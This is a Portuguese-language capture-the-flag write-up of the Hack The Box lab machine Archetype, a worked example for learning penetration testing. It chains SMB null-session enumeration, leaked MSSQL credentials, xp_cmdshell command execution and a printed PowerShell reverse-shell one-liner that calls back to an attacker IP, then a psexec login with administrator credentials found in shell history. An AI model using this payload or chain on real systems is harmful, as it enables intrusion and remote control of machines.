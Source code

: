 ```yaml
---
title: HTB Archetype Writeup
author: Hastur
date: 2021-09-05 21:00:00 -0300
categories: [Writeups, Hack The Box - Starting Point]
tags: [HTB, Starting point, Windows]
thumb: /htb/htb-knife-logo.png
---
```


<img src="/htb/htb-archetype-logo.png">

<br>


| Nome | Archetype       |
|------|-------------|
|IP    | 10.10.10.27|
|Pontos| 0          |
|OS    | Windows    |
|Nível | Very Easy  |

<br>

## RECON

### Nmap
```
┌──(hastur㉿hastur)-[~/Archetype]
└─$ sudo nmap -v -p- -sCV -O -Pn 10.10.10.27 --min-rate=512
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-09-05T19:35:06
| Not valid after:  2051-09-05T19:35:06
| MD5:   0f97 d62c 8d46 e595 8b83 982b eb14 769f
|_SHA-1: 795d c811 74ec cd90 80e3 27d6 bb77 796c a2f0 d9d4
|_ssl-date: 2021-09-05T19:47:03+00:00; -35m18s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 48m42s, deviation: 3h07m52s, median: -35m18s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-05T12:46:55-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-05T19:46:54
|_  start_date: N/A


```
Encontramos várias portas abertas nesta máqina, vamo começar pela `445 - SMB`.

### SMB

Vamos tentar uma conex]ao sem credenciais para verificar null session no SMB.

<img src="/htb/htb-archetype-1.png">

Temos acesso a algubs compartilhamentos, em expecial `backups`, vamos enumerá-lo.

<img src="/htb/htb-archetype-2.png">

Encontramos o arquivo, `prod.dtsConfig`, após baixarmos, e analizarmos, encontramos algumas informaçõs valiosas.

<img src="/htb/htb-archetype-3.png">

Ecnontramos as credenciais para um MSSQL: `ARCHETYPE\sql_svc:M3g4c0rp123`.

Em posse das credenciais, podemos tentar uma conex]ao remota utilizando o `mssqlclient.py`.

<img src="/htb/htb-archetype-4.png">

Conseguimos um acesso ao MSSQL, ótimo!

Podemos utilizar a função `IS_SRVROLEMEMBER`, para verificar se o usuário `sql_svc` tem privilégios administrativos.

<img src="/htb/htb-archetype-5.png">

O MSSQL retornou `1`, o que significa que temos privilégios administrativos.

Agora precisamos de uma forma de conseguir a leak de algum arquivo, ou melhor, um shell.

Existe uma funsão do MSSQL que permite executar comandos via query, podemos encontrar na pŕopria documentação da Microsoft [aqui](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

Vamos seguir os passos da documentação e testar algum comando.

<img src="/htb/htb-archetype-6.png">

Ótimo, conseguimos um RCE através do MSSQL, agora podemos tentar um reverse shell através de comandos no PowerSHell.

Primeiro vamos criar um payload de uma linha em power shell e salvá-lo no arquivo `shell.ps1`.

```
┌──(hastur㉿hastur)-[~/Archetype]
└─$ cat shell.ps1
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.251",8443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Agora vamos iniciar um server http com python `python3 -m http.server 80`.

<img src="/htb/htb-archetype-7.png">

Agora setamos um `netcat` na porta 8443 que setamos em nosso payload.

<img src="/htb/htb-archetype-8.png">

Com tudo pronto, podemos enviar um payload em Power Shell no MSSQL, que vai fazer o download do script em nosso HTTP server e em seguida executá-lo, nos dando um reverse shell no netcat que abrimos.

<img src="/htb/htb-archetype-9.png">

Se olharmos em nosso servidor HTTP, podemos ver que houve uma requisição vinda da Archetype.

<img src="/htb/htb-archetype-10.png">

E em nosso netcat, temos nosso reverse shell!!!

<img src="/htb/htb-archetype-11.png">

Ótimo, estamos dentro do host da Archetype, dentro do Desktop do usuário `sql_svc`, encontramos a flag do usuário.

<img src="/htb/htb-archetype-12.png">

## Escalação de privilégios

Após um bom tempo de enumeração local, decidi checar se há algum histórico do Power Shell no usuário e descobri uma informação extremamente importante.

<img src="/htb/htb-archetype-13.png">

Encontramos as credenciais do administrador: `administrator:MEGACORP_4dm1n!!`.

Em posse destas credenciais, podemos tentar um acesso remoto ao host utilizando o `psexec.py`.

<img src="/htb/htb-archetype-14.png">

E conseguimos nosso shell com privilégios administrativos no Host Archetype.

A flag do Administrator está em seu Desktop.

<img src="/htb/htb-archetype-15.png">


E comprometemos o server!!
<br>

<img src="/htb/hackerman.gif">
<br>



